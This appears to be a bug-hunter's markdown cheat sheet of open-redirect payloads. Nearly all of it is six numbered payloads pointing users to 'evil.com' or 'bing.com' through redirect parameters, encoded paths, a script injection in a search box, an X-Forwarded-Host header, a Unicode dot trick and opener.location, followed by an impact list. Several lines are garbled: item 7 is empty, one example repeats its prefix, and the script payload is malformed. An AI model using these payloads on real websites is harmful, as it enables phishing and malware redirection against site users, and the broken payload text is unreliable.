 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload:

==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
